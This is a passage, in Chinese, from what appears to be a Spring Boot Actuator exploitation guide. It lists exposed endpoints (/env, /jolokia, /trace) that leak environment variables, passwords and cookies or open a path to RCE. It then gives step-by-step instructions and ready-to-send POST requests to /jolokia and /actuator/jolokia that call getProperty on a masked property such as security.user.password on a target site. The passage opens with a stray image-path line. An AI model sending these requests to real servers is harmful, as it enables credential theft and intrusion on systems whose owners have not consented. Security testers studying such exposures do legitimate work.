   GET 请求 `/env` 会泄露环境变量信息，或者配置中的一些用户名，当程序员的属性名命名不规范 (例如 password 写成 psasword、pwd) 时，会泄露密码明文；

  同时有一定概率可以通过 POST 请求 `/env` 接口设置一些属性，触发相关 RCE 漏洞。

- `/jolokia`

  通过 `/jolokia/list` 接口寻找可以利用的 MBean，触发相关 RCE 漏洞；

- `/trace`

  一些 http 请求包访问跟踪信息，有可能发现有效的 cookie 信息



### 0x03：获取被星号脱敏的密码的明文 (方法一)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### 利用条件：

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）



#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。



##### 步骤二： jolokia 调用相关 Mbean 获取明文

将下面示例中的 `security.user.password` 替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的 `value` 键中。



- 调用 `org.springframework.boot` Mbean（**可能更通用**）

> 实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```
